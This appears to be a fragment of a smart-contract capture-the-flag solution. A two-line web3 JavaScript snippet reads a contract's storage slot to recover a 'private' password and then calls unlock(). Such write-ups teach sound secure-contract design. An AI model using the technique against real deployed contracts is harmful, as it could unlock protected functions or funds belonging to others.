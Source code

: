 ```javascript
let password = await web3.eth.getStorageAt(contract.address, 1)

await contract.unlock(password)
```

Extracting a private variable value from the storage layout.